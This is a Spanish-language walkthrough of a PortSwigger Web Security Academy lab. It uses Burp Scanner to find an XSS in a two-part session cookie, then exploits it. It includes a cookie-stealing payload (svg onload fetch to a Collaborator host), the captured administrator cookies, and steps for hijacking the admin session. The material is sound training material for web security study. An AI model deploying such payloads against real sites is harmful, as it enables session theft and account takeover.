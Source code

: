 ```yaml
---
title: Essential Skills Lab 2
date: 2024-12-08 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - Essential Skills
tags:
  - Essential Skills
  - Scanning non-standard data structures
image:
  path: /assets/img/Essential-Skills-Lab-2/Portswigger.png
---
```


## Skills

- Scanning non-standard data structures

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` que es difícil de encontrar `manualmente`. Se encuentra en una `estructura de datos no estándar`. Para `resolver` el laboratorio, debemos usar la función `Scan selected insertion point` de `Burp Scanner` para identificar la `vulnerabilidad`, luego `explotarla` manualmente y eliminar al `usuario carlos`. Podemos `iniciar sesión` en nuestra propia cuenta utilizando las credenciales `wiener:peter`

---
## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Essential-Skills-Lab-2/image_1.png)

Pulsamos en `My account` y nos `logueamos` con las credenciales `wiener:peter`

![](/assets/img/Essential-Skills-Lab-2/image_2.png)

`Recargamos` con `F5` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/Essential-Skills-Lab-2/image_3.png)

El `formato` de la `cookie` es bastante `extraño`

```
session=wiener:zqEeGuTsB0x4zgTkv5Pl3BDpMbM4KYDL
```

Si la `estructura` de `datos` fuera `estándar`, es decir que tuviera `un solo campo` podríamos `marcar todo el dato` de forma `completa` de esta manera

```
session=zqEeGuTsB0x4zgTkv5Pl3BDpMbM4KYDL
```

![](/assets/img/Essential-Skills-Lab-2/image_4.png)

Sin embargo, en este caso, parece que se trata de dos `estructuras de datos` diferentes. Por ello, no tendría sentido manejarlo de esta manera, ya que `Burp Suite` enviaría un único `payload` para toda la `estructura`. En estos casos, o cuando trabajamos con un `JSON`, lo mejor es `enviar` la `petición` al `Intruder`, establecer `puntos de inserción` (insertion points) en cada `dato` y escanear los valores de manera `independiente` y no como un `único bloque`. Cuando se abra la nueva `ventana` en `Burp Intruder`, debemos pulsar en `OK` y comenzará el `escaneo`

![](/assets/img/Essential-Skills-Lab-2/image_5.png)

Si nos vamos a `Dashboard` veremos que nos ha `detectado` un `XSS`, aunque ponga `audit finished` necesitaremos `esperar` un poco `más` de `tiempo` para que nos `muestre` lo que ha `encontrado`

![](/assets/img/Essential-Skills-Lab-2/image_6.png)

Este es el `payload` que vamos a usar ahora para `obtener` la `cookie`, debemos usar `Burpsuite Collaborator` para que nos mande ahí las `peticiones`

```
Cookie: session='"><svg/onload=fetch(`//ird4jrrnt2mjjytc1bdncj4v8mee24qt.oastify.com/${encodeURIComponent(document.cookie)}`)>:gzUjX1PEjSeUz0hi59YqWXwVpEiCHt9x
```

Para `encodear` el `payload` de la misma forma en la que está, debemos usar el `inspector` de `Burpsuite`, el cual se `encargará` de `encodearlo` de la misma forma en la que está el anterior

![](/assets/img/Essential-Skills-Lab-2/image_7.png)

Una vez `enviada` la `petición`, nos llega esto a `Burpsuite Collaborator`

![](/assets/img/Essential-Skills-Lab-2/image_8.png)

El `inspector` de `Burpsuite` lo `decodea` por nosotros y vemos que estas son las `cookies` del usuario `administrator`

![](/assets/img/Essential-Skills-Lab-2/image_9.png)

```
/session=administrator:iwnc8XhMT4HzCj2ScdD2qDuwKRG7AJhD; secret=jPNSk5gKjLbTQaTMWbYl81pU2rTtXufm; session=administrator:iwnc8XhMT4HzCj2ScdD2qDuwKRG7AJhD
```

Nos vamos al navegador y pulsamos `Ctrl + Shift + i` y vemos que tenemos varios `campos` de `cookies`

![](/assets/img/Essential-Skills-Lab-2/image_10.png)

`Sustituimos` los `campos` de `cookies` y pulsamos `F5` para `refrescar` la `web`

![](/assets/img/Essential-Skills-Lab-2/image_11.png)

Ya tenemos `acceso` al `panel` de `administrador` y podemos `eliminar` al usuario `carlos`

![](/assets/img/Essential-Skills-Lab-2/image_12.png)

Vemos que hay una parte llamada `View Logs`, aquí es donde se ha producido el `XSS` debido a que el usuario `administrator` se encontraba `revisándolo`

![](/assets/img/Essential-Skills-Lab-2/image_13.png)
